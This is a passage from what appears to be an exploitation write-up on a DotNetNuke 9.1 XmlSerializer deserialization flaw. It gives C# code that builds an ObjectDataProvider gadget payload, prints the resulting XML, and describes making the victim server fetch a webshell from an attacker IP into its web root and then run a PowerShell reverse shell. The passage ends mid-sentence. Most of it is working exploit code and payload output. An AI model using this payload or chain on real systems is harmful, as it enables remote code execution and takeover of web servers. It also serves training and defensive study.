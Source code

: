 ```csharp
            myExpWrap.ProjectedProperty0 = new ObjectDataProvider();
            myExpWrap.ProjectedProperty0.ObjectInstance = new FileSystemUtils();
            myExpWrap.ProjectedProperty0.MethodName = "PullFile";
            myExpWrap.ProjectedProperty0.MethodParameters.Add("http://192.168.45.156/webshell.aspx");
            myExpWrap.ProjectedProperty0.MethodParameters.Add("C:/inetpub/wwwroot/dotnetnuke/webshell.aspx");


            Hashtable table = new Hashtable();
            table["myTableEntry"] = myExpWrap;
            String payload = XmlUtils.SerializeDictionary(table, "profile");
            TextWriter writer = new StreamWriter("C:\\Windows\\Temp\\Payload.txt");
            writer.Write(payload);
            writer.Close();

            Console.WriteLine("Done!");
        }

    }
}
```

After building and executing the above C# application, an XML `Payload.txt`
file will be generated in `C:\Windows\Temp`. Upon deserialization of this
payload with **XmlSerializer**, the victim host deserializing the payload will
download `webshell.aspx` to its web root from the attacker host specified in
the payload.

Below is an example of the compiled payload:

```txt
<profile><item key="myTableEntry" type="System.Data.Services.Internal.ExpandedWrapper`2[[DotNetNuke.Common.Utilities.FileSystemUtils, DotNetNuke, Version=9.1.0.367, Culture=neutral, PublicKeyToken=null],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"><ExpandedWrapperOfFileSystemUtilsObjectDataProvider xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"><ProjectedProperty0><ObjectInstance xsi:type="FileSystemUtils" /><MethodName>PullFile</MethodName><MethodParameters><anyType xsi:type="xsd:string">http://192.168.45.156/webshell.aspx</anyType><anyType xsi:type="xsd:string">C:/inetpub/wwwroot/dotnetnuke/webshell.aspx</anyType></MethodParameters></ProjectedProperty0></ExpandedWrapperOfFileSystemUtilsObjectDataProvider></item></profile>
```

### Getting a reverse shell

With our ability to pull arbitrary files from remote locations, we host the
`cmdasp.aspx` webshell file on our attacker host and coerce the victim host to
download the webshell to its web root. We then execute a PowerShell reverse
shell via the uploaded web shell on the victim host using our browser, gaining
an interactive shell with the victim host as the web server's user.

To find the `cmdasp.aspx` file on our Kali Linux installation, use the invoke
the following in Bash
